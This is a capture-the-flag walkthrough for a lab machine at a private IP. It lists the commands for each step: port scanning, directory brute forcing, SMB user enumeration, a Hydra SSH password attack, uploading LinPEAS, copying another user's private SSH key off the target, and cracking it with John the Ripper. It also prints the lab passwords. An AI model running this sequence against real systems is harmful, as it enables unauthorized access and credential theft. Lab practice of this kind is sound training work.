



# Basic Penetration Testing Box

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE


### 1. FIND EXPOSED SERVICES


**TOOLS**: NMap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```


**EXPOSED PORT (SERVICE)**:
  22 (ssh),
  80 (http),
  139 (smbd),
  445 (smbd),
  8009 (ajp13),
  8080 (http)

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: DirBuster

```
dirb http://10.10.19.208
```



**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: Enum4Linux, Hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```



**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```



**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: LinPeas, JohnTheRipper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```


```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```


**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD


```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
